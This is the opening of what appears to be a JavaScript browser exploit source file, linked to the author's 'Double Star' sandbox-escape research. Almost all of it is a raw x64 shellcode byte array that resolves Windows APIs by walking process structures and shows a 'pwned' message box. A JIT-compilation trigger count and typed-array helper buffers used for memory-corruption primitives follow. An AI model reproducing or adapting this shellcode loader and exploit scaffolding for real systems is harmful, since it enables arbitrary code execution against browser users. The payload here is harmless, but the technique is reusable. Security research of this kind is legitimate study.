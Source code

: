     // Carefully read the overview comments of this exploit source. This is a simple MessageBoxA shellcode but due to sandboxing will not appear without the steps I outlined. To see the full Double Star exploit chain which can bypass the sandbox in full, read my research on it at: https://github.com/forrest-orr/DoubleStar
    const Shellcode = new Uint8Array([ 0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88, 0x48, 0x83, 0xec, 0x08, 0x40, 0x80, 0xe4, 0xf7, 0x48, 0xc7, 0xc1, 0x88, 0x4e, 0x0d, 0x00, 0xe8, 0x91, 0x00, 0x00, 0x00, 0x48, 0x89, 0xc7, 0x48, 0xc7, 0xc2, 0x86, 0x57, 0x0d, 0x00, 0x48, 0x89, 0xf9, 0xe8, 0xde, 0x00, 0x00, 0x00, 0x48, 0xb9, 0x75, 0x73, 0x65, 0x72, 0x33, 0x32, 0x00, 0x00, 0x51, 0x48, 0x89, 0xe1, 0x55, 0x48, 0x89, 0xe5, 0x48, 0x83, 0xec, 0x20, 0x48, 0x83, 0xec, 0x08, 0x40, 0x80, 0xe4, 0xf7, 0xff, 0xd0, 0x48, 0x89, 0xec, 0x5d, 0x48, 0xc7, 0xc2, 0x1a, 0xb8, 0x06, 0x00, 0x48, 0x89, 0xc1, 0xe8, 0xab, 0x00, 0x00, 0x00, 0x4d, 0x31, 0xc9, 0x48, 0xb9, 0x70, 0x77, 0x6e, 0x65, 0x64, 0x00, 0x00, 0x00, 0x51, 0x49, 0x89, 0xe0, 0x48, 0xc7, 0xc1, 0x6e, 0x65, 0x74, 0x00, 0x51, 0x48, 0xb9, 0x65, 0x73, 0x74, 0x2d, 0x6f, 0x72, 0x72, 0x2e, 0x51, 0x48, 0xb9, 0x77, 0x77, 0x77, 0x2e, 0x66, 0x6f, 0x72, 0x72, 0x51, 0x48, 0x89, 0xe2, 0x48, 0x31, 0xc9, 0x55, 0x48, 0x89, 0xe5, 0x48, 0x83, 0xec, 0x20, 0x48, 0x83, 0xec, 0x08, 0x40, 0x80, 0xe4, 0xf7, 0xff, 0xd0, 0x48, 0x89, 0xec, 0x5d, 0xc3, 0x41, 0x50, 0x57, 0x56, 0x49, 0x89, 0xc8, 0x48, 0xc7, 0xc6, 0x60, 0x00, 0x00, 0x00, 0x65, 0x48, 0xad, 0x48, 0x8b, 0x40, 0x18, 0x48, 0x8b, 0x78, 0x30, 0x48, 0x89, 0xfe, 0x48, 0x31, 0xc0, 0xeb, 0x05, 0x48, 0x39, 0xf7, 0x74, 0x34, 0x48, 0x85, 0xf6, 0x74, 0x2f, 0x48, 0x8d, 0x5e, 0x38, 0x48, 0x85, 0xdb, 0x74, 0x1a, 0x48, 0xc7, 0xc2, 0x01, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x4b, 0x08, 0x48, 0x85, 0xc9, 0x74, 0x0a, 0xe8, 0xa7, 0x01, 0x00, 0x00, 0x4c, 0x39, 0xc0, 0x74, 0x08, 0x48, 0x31, 0xc0, 0x48, 0x8b, 0x36, 0xeb, 0xcb, 0x48, 0x8b, 0x46, 0x10, 0x5e, 0x5f, 0x41, 0x58, 0xc3, 0x55, 0x48, 0x89, 0xe5, 0x48, 0x81, 0xec, 0x50, 0x02, 0x00, 0x00, 0x57, 0x56, 0x48, 0x89, 0x4d, 0xf8, 0x48, 0x89, 0x55, 0xf0, 0x48, 0x31, 0xdb, 0x8b, 0x59, 0x3c, 0x48, 0x01, 0xd9, 0x48, 0x83, 0xc1, 0x18, 0x48, 0x8b, 0x75, 0xf8, 0x48, 0x31, 0xdb, 0x8b, 0x59, 0x70, 0x48, 0x01, 0xde, 0x48, 0x89, 0x75, 0xe8, 0x8b, 0x41, 0x74, 0x89, 0x45, 0xc0, 0x48, 0x8b, 0x45, 0xf8, 0x8b, 0x5e, 0x20, 0x48, 0x01, 0xd8, 0x48, 0x89, 0x45, 0xe0, 0x48, 0x8b, 0x45, 0xf8, 0x48, 0x31, 0xdb, 0x8b, 0x5e, 0x24, 0x48, 0x01, 0xd8, 0x48, 0x89, 0x45, 0xd8, 0x48, 0x8b, 0x45, 0xf8, 0x8b, 0x5e, 0x1c, 0x48, 0x01, 0xd8, 0x48, 0x89, 0x45, 0xd0, 0x48, 0x31, 0xf6, 0x48, 0x89, 0x75, 0xc8, 0x48, 0x8b, 0x45, 0xe8, 0x8b, 0x40, 0x18, 0x48, 0x39, 0xf0, 0x0f, 0x86, 0x09, 0x01, 0x00, 0x00, 0x48, 0x89, 0xf0, 0x48, 0x8d, 0x0c, 0x85, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x55, 0xe0, 0x48, 0x8b, 0x45, 0xf8, 0x8b, 0x1c, 0x11, 0x48, 0x01, 0xd8, 0x48, 0x31, 0xd2, 0x48, 0x89, 0xc1, 0xe8, 0xf0, 0x00, 0x00, 0x00, 0x3b, 0x45, 0xf0, 0x0f, 0x85, 0xd3, 0x00, 0x00, 0x00, 0x48, 0x89, 0xf0, 0x48, 0x8d, 0x14, 0x00, 0x48, 0x8b, 0x45, 0xd8, 0x48, 0x0f, 0xb7, 0x04, 0x02, 0x48, 0x8d, 0x0c, 0x85, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x55, 0xd0, 0x48, 0x8b, 0x45, 0xf8, 0x8b, 0x1c, 0x11, 0x48, 0x01, 0xd8, 0x48, 0x89, 0x45, 0xc8, 0x48, 0x8b, 0x4d, 0xe8, 0x48, 0x89, 0xca, 0x48, 0x31, 0xdb, 0x8b, 0x5d, 0xc0, 0x48, 0x01, 0xda, 0x48, 0x39, 0xc8, 0x0f, 0x8c, 0x99, 0x00, 0x00, 0x00, 0x48, 0x39, 0xd0, 0x0f, 0x8d, 0x90, 0x00, 0x00, 0x00, 0x48, 0xc7, 0x45, 0xc8, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xc9, 0x90, 0x48, 0x8d, 0x9d, 0xb0, 0xfd, 0xff, 0xff, 0x8a, 0x14, 0x08, 0x80, 0xfa, 0x00, 0x74, 0x28, 0x80, 0xfa, 0x2e, 0x75, 0x19, 0xc7, 0x03, 0x2e, 0x64, 0x6c, 0x6c, 0x48, 0x83, 0xc3, 0x04, 0xc6, 0x03, 0x00, 0x48, 0x8d, 0x9d, 0xb0, 0xfe, 0xff, 0xff, 0x48, 0xff, 0xc1, 0xeb, 0xda, 0x88, 0x13, 0x48, 0xff, 0xc1, 0x48, 0xff, 0xc3, 0xeb, 0xd0, 0xc6, 0x03, 0x00, 0x48, 0x31, 0xd2, 0x48, 0x8d, 0x8d, 0xb0, 0xfd, 0xff, 0xff, 0xe8, 0x46, 0x00, 0x00, 0x00, 0x48, 0x89, 0xc1, 0xe8, 0x4e, 0xfe, 0xff, 0xff, 0x48, 0x85, 0xc0, 0x74, 0x2e, 0x48, 0x89, 0x45, 0xb8, 0x48, 0x31, 0xd2, 0x48, 0x8d, 0x8d, 0xb0, 0xfe, 0xff, 0xff, 0xe8, 0x26, 0x00, 0x00, 0x00, 0x48, 0x89, 0xc2, 0x48, 0x8b, 0x4d, 0xb8, 0xe8, 0x89, 0xfe, 0xff, 0xff, 0x48, 0x89, 0x45, 0xc8, 0xeb, 0x09, 0x48, 0xff, 0xc6, 0x90, 0xe9, 0xe7, 0xfe, 0xff, 0xff, 0x48, 0x8b, 0x45, 0xc8, 0x5e, 0x5f, 0x48, 0x89, 0xec, 0x5d, 0xc3, 0x57, 0x48, 0x89, 0xd7, 0x48, 0x31, 0xdb, 0x80, 0x39, 0x00, 0x74, 0x1a, 0x0f, 0xb6, 0x01, 0x0c, 0x60, 0x0f, 0xb6, 0xd0, 0x01, 0xd3, 0x48, 0xd1, 0xe3, 0x48, 0xff, 0xc1, 0x48, 0x85, 0xff, 0x74, 0xe6, 0x48, 0xff, 0xc1, 0xeb, 0xe1, 0x48, 0x89, 0xd8, 0x5f, 0xc3 ]);
    var JITIterations = 0x10000; // Number of iterations needed to trigger JIT compilation of code. The compilation count threshold varies and this is typically overkill (10+ or 1000+ is often sufficient) but is the most stable count I've tested.
    var HelperBuf = new ArrayBuffer(8);
    var HelperDbl = new Float64Array(HelperBuf);
    var HelperDword = new Uint32Array(HelperBuf);
